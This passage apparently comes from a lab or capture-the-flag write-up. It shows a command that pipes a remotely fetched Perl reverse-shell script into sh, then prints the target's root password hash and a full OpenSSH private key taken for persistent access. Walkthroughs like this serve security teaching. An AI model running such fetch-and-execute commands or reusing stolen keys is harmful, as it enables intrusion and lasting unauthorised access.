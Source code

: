 ```bash
curl 10.50.85.129:6969/PerlRev.pl | sh
```

![image](https://github.com/0xScorpio/Ethical-Hacking/assets/140411254/58a5f9a5-1fe4-4fcd-8768-34fc0319103e)


After stabilizing the shell - (https://github.com/0xScorpio/Ethical-Hacking/blob/main/README.md#reverse-shell-stabilization), we can check for the root user's password hash, for persistence:

![image](https://github.com/0xScorpio/Ethical-Hacking/assets/140411254/684b7c9d-3622-4ad3-af8a-4e600c891661)


`root:$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1`

Root hash is uncrackable, so let's check what we can find in the root folder. It looks like SSH keys are stored, which is perfect for us - we can SSH whenever we want to.

```sshkey
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
```
